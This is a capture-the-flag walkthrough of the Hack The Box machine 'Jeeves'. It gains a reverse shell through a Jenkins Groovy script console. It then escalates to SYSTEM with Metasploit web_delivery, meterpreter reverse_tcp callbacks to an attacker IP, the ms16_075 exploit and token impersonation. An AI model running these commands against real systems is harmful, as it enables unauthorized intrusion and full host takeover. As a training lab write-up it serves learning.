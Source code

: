 ```yaml
---
description: https://app.hackthebox.com/machines/114
---
```


# 🪄 Jeeves

<figure><img src="../../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

Staring with the nmap we see a web server on port 80 and 50000,&#x20;

**port 80:**

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

just a webpage like this, the links do not go anywhere and if we search anything:

<figure><img src="../../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

we get an error page, with SQL server written on it so maybe we got a SQLi somewhere

but we quickly see the error page is a fake one, it's an image:

<figure><img src="../../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

So let's go on **port 50000**

open up the graphical interface and fire up the manual exploitation like this:

```
dirbuster&
```

<figure><img src="../../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

after waiting for a bit we find a subdomain that redirects to a dashboard ->

<figure><img src="../../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

jeeves is well known to be unsecure and to have a script code section

<figure><img src="../../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

We instantly see that the script console uses groovy:

<figure><img src="../../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

now we go and fetch our payload of choice:

Groovy Reverse Shell - [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

<figure><img src="../../../.gitbook/assets/image (585).png" alt=""><figcaption><p>copy this payload</p></figcaption></figure>

Set up a listener, modify the payload:

<figure><img src="../../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

then, fire up the payload and get your shell:

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

Now is the perfect moment to look at our previous documentation:

{% content-ref url="../../cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

```
whoami /priv
```

we instantly see our go to path:

<figure><img src="../../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

another way of enumerating is ->

```
systeminfo
```

<figure><img src="../../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

copy and paste the whole outpu in a txt file, then

<figure><img src="../../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

```
./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo systeminfo.txt
```

[**`https://github.com/AonCyberLabs/Windows-Exploit-Suggester`**](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1. **`./v.py`**: This is the command to execute the Python script `windows-exploit-suggester.py`. The `./` prefix specifies the current directory where the script is located.
2. **`--database 2020-04-17-mssb.xls`**: This option specifies the database file to be used by the script. The database file, named `2020-04-17-mssb.xls`, likely contains information about known Microsoft security bulletins and associated vulnerabilities.
3. **`--systeminfo systeminfo.txt`**: This option specifies the system information file to be used by the script. The file named `systeminfo.txt` likely contains detailed information about the target Windows system, such as operating system version, installed patches, and installed software.

If ran correctly, we'll get hot potato attacks, juicy potato etc

We could also use metasploit:&#x20;

```
use exploit/multi/script/web_delivery
options
show targets
```

<figure><img src="../../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

```
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.94
set srvhost 10.10.14.94
run
```

<figure><img src="../../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

then paste this payload in your already existing session:

<figure><img src="../../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

and back on your msfconsole you just have to type in the command:

```
sessions 1
```

<figure><img src="../../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

then to continue, you could enumerate:

```
 run post/multi/recon/local_exploit_suggester 
```

<figure><img src="../../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

put that aside with the background command and put this payload:

```
background
use exploit/windows/local/ms16_075_reflection
set lhost 10.10.14.94
set lport 5555 
#because session1 runs on 4444
set payload windows/x64/meterpreter/reverse_tcp
```

and if you did everything correctly and you run the payload, you'll get a shell, now

now let's follow in cmd:

```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

```
shell
```

And when  we go on administrator desktop we find no root flag?

Alternate Data Streams - [https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

what we learn in this article is that there are primary data streams and alternate&#x20;

1. **Primary Data Streams**:
   * Primary data streams are the main data associated with a file. When you create or modify a file in Windows, you're working with its primary data stream.
   * Every file in NTFS has at least one primary data stream, which contains the file's main content.
   * Primary data streams are typically what you interact with when you open, read, write, or execute a file. They contain the file's actual data, such as text, executable code, images, etc.
   * Files with only primary data streams are considered "regular" files in Windows.
2. **Alternate Data Streams (ADS)**:
   * Alternate data streams are additional streams of data that can be associated with a file. They are not typically visible through regular file system navigation tools like File Explorer.
   * An alternate data stream is a named stream of data that is attached to a file's primary data stream. Each alternate data stream is associated with a specific name, allowing multiple streams to exist within a single file.
   * Alternate data streams can be used for various purposes, such as storing metadata, file attributes, or additional content related to the main file.
   * While alternate data streams are not commonly used in everyday file operations, they can be leveraged by attackers for hiding malicious content or data within seemingly innocent files.

So on the Desktop we see a hm.txt file

```
dir /R
```

<figure><img src="https://thecyberjedi.com/wp-content/uploads/2020/01/image-103.png" alt=""><figcaption></figcaption></figure>

to view the contents of the file we can type **more < hm.txt:root.txt**

**Very  good writeup:** [**https://thecyberjedi.com/jeeves/**](https://thecyberjedi.com/jeeves/)
